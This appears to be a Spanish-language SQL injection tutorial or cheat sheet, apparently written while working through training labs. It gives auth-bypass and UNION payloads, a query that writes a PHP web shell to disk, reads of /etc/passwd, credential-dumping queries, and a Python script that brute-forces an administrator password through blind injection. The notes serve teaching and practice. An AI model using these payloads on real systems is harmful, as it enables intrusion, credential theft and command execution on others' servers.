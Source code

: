 
### BYPASS Basico
---
```sql
SELECT * FROM {data_name} WHERE {column}='%s' AND {column2})='data';

SELECT * FROM users WHERE username='Example' or 1=1-- -' AND password='password';
```

### SQL Injection UNION
---
Lo primero que debemos hacer para averiguar cuantas columnas puede tener una tabla, o cuantas se estan seleccionando, se puede comenzar a probar cuantas columnas se estan llamando con la sig iyección.

```SQL
SELECT {column1}, {column2} FROM {data_name} WHERE {some_query}='%s';

SELECT username, password FROM users WHERE cookie='cookie' ORDER BY 4-- -'
-- Unknown column '4' in 'order clause'
SELECT username, password FROM users WHERE cookie='cookie' ORDER BY 2-- -'
```

Una vez que conseguimos saber cuantos campos se estan seleccionando por detras, lo podemos utilizar para ahora si, usar el ataque UNION, esto es necesario ya que solo se podra hacer un union sabiendo exactamente las columnas seleccionadas por detras.

```SQL
SELECT {column1}, {column2} FROM {data_name} WHERE {some_query}='%s';

SELECT username, password FROM users WHERE cookie='cookie' UNION SELECT NULL,NULL;-- -'

-- Ahora podriamos ingresar strings para de esta manera empezar a filtrar datos.

SELECT username, email FROM users WHERE x='%s' UNION SELECT version(),null;-- -';
-- De esta manera estamos inyectando información de la version de sql en el campo solicitado, en ete ejemplo (username), devolviendo asi, no solo el username, ejemplo "admin" si no tmb por ejemplo, concatenado a esto PostgreSQL 14.4 (Debian 14.4-1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 11.3.0-3) 11.3.0, 64-bit
```

Con esto hay muchos conceptos que podriamos aplicar, como escribir un archivo en el sistema, ingresando una sentencia php:

```SQL
SELECT username, email FROM users WHERE x='%s' UNION SELECT "<?php system($_GET['cmd']); ?>", NULL INTO outfile "/tmp/example.txt"-- -';
```

O para leer archivos propios del sistema :

```SQL
SELECT username, email FROM users WHERE x='%s' UNION SELECT load_file("/etc/passwd"), NULL-- -';
```

O para listar las base de datos:

```SQL
SELECT x, y FROM t WHERE d='%s' UNION SELECT group_concat(schema_name) FROM information_schema.schemata-- -'
```

Y una vez teniendo todas las base de datos, podemos intentar listar las tablas de una base de datos en especifica:

```SQL
SELECT x, y FROM t WHERE d='%s' UNION SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema='db_dumpeada'-- -';
```

Para asi, una vez teniendo las tablas de una base de datos en particular, poder dumpear las columnas:

```SQL
SELECT x, y FROM t WHERE d='%s' UNION SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema='db_dumpeada' AND table_name='table_dumpeada'-- -';
```

Y así, teniendo las columnas de la tabla de una base de datos, podemos asi, dumpear los datos:

```SQL
SELECT {column_dumpeada1}, {column_dumpeada2} FROM {table_dumpeada} WHERE d='%s' UNION SELECT username, passoword-- -';
```

#### Ejemplo:

```SQL
select username, password from users where username='Admin' union select null, username||":"||password from users;-- -' and password='password';

select email, password from users where username='Owen' union select group_concat(email,':',password),null from users;-- -' and password='password';

-- Si tirase error el group_concat, se puede probar ||":"|| o ||0x3a||

```
---
# Blind Injections

## Conditionals Response

Esto ocurre cuando los errores causados por inyecciones sql no se ven, por lo que hay que obtenerlos, por ejemplo, si la vulnerabilidad se tratase en una query llamada "TrackingId".
 
### Ejemplo:

```SQL
SELECT * FROM products WHERE TrackingId='R6IxX1tiUucyn6LL'
```

Al agregarle la comilla a la query ' para que rompa la petición

```SQL
SELECT * FROM products WHERE TrackingId='R6IxX1tiUucyn6LL''
```

El error no es visible en la web porque es a CIEGAS=BLIND, pero se genera el error y desaparece un apartado o mensaje en la web, esto justamente es lo que le da el nombre a la vulnerabilidad "conditional", dependiendo de si hay un error o no, muestra algo o no.

Esto lo podemos usar para jugar con peticiones #true y #false y basarnos de si la respuesta se ve o no para corroborar si la petición enviada por detras se cumple o no, por ejemplo:

```SQL
SELECT * FROM products WHERE TrackingId='R6IxX1tiUucyn6LL' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

De esta manera estamos inyectando una nueva query en donde seleccionamos la letra a de la tabla users del usuario administrator (Recordemos que aquellos valores falsos o errores hacen desaparecer un mensaje o apartado de la web), de esta manera podemos entender que caracter por caracter tenemos una manera potencial de verifica si el username, o password,  o sea cual sea la columna, es correcta, permitiendonos asi, con herramientas como burpsuite o creando script en python, hacer un descubrimiento de la contraseña del usuario administrador.

```SQL
-- La primera posición del username del usuario administrator es 'a'
SELECT * FROM products WHERE TrackingId='R6IxX1tiUucyn6LL' AND (SELECT substring(username,1,1) FROM users WHERE username='Administrator')='a'-- -

-- La primera posición de la password del usuario administrator es 'a'
SELECT * FROM products WHERE TrackingId='R6IxX1tiUucyn6LL' AND (SELECT substring(password,1,1) FROM users WHERE username='administrator')='a
```

Incluso podriamos ir descubriendo la longitud de la contraseña:

```SQL
SELECT * FROM products WHERE TrackingId='q3XzfKFtNBf4dtNv' AND (SELECT 'a' FROM users WHERE username='administrator' AND length(password)>=20)='a
```



### Script en python ejemplo:

```python
#!/usr/bin/python3
from pwn import *
import requests, signal, time, pdb, sys, string

########################################
############# CONTROL + C ##############
########################################

def def_handler(sig, frame):
	print("\n\n[!] Saliendo...\n")
	sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

########################################
########## VARIABLES GLOBALES ##########
########################################

main_url="https://0add006403a236e0c0f91f900081009f.web-security-academy.net"
characters= string.ascii_lowercase + string.digits

########################################

def makeRequests():

	password=""
	p1 = log.progress("Fuerza bruta")
	p1.status("Iniciando ataque de fuerza bruta")
	
	time.sleep(2)
	
	p2 = log.progress("Password")

	for position in range(1, 21):
		for character in characters:
			cookies = {
				"TrackingId": "9BTAXg9CWgueJePm' and (select substring(password,%d,1) from users where username='administrator')='%s" % (position, character),
				"session": "0aUi1LOYfRGtiE7K3VGivY8x3r8f548j"
			}
			p1.status(cookies['TrackingId'])

			r = requests.get(main_url, cookies=cookies)

			if "MENSAJE QUE DESAPARECE" in r.text:
				password += character
				p2.status(password)
				break

if __name__ == "__main__":
	makeRequests()
```


```SQL
234423 or (select substr(schema_name,1,1) from information_schema.schemata limit 1,1)='i'
```
